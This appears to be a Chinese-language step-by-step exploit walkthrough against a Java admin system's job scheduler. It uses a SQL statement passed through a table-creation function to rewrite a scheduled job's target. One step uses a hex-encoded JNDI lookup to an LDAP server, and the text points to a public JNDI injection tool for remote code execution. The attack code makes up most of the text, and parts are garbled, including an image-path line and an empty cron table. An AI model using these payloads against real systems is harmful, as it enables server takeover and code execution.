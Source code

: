 第一步：运行此命令  
  
成功地绕过了它，并成功地执行  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
<table><tbody><tr style="height: 33px;"><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><section><span leaf=""><br/></span></section></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><section><span leaf=""><br/></span></section></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><section><span leaf=""><br/></span></section></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><section><span leaf=""><br/></span></section></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><section><span leaf=""><br/></span></section></td></tr><tr style="height: 33px;"><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(36, 41, 47);font-size: 16px;"><span leaf="">分钟</span></span></p></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(36, 41, 47);font-size: 16px;"><span leaf="">小时</span></span></p></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(36, 41, 47);font-size: 16px;"><span leaf="">日</span></span></p></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(36, 41, 47);font-size: 16px;"><span leaf="">月</span></span></p></td><td data-colwidth="150" width="150" style="border: 1px solid #d9d9d9;"><p style="margin: 0;padding: 0;min-height: 24px;"><span style="color: rgb(36, 41, 47);font-size: 16px;"><span leaf="">星期</span></span></p></td></tr></tbody></table>```
* * * * * ?
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN9TiamK3locEU4jIu0jqjgDmjQbYbR4dagonsfzhuGEAqsYpMhvGZ1iaA/640?wx_fmt=png&from=appmsg "")  
  
第二步：  
  
修改执行命令  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By 1ue' WHERE job_id = 1;')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNa180qF1ka5cZ1JhlhaNrTfhAQ9yzJgkNq7GAdj95ib4JZGEA6VR0ucQ/640?wx_fmt=png&from=appmsg "")  
  
第三步：  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3132372e302e302e313a313338392f646573657269616c4a61636b736f6e2729 WHERE job_id = 1;')
```  
  
创建任务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxN11GezsZSNdL5ic6icyia3c0AXL4afNMUfId8icjTYvg4P28jbuCEffHQ6w/640?wx_fmt=png&from=appmsg "")  
  
  
执行一次  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNCDiaCLKz1GxZtibWXgrFAOsgFzo9JaiaLm2HaJGqwmPRIrrxECpgdyDAg/640?wx_fmt=png&from=appmsg "")  
  
  
执行被修改的任务之前需要开启JNDI  
  
需要下载cckuailong师傅的JNDI-Injection-Exploit-Plus项目(  
https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases/tag/2.3  
```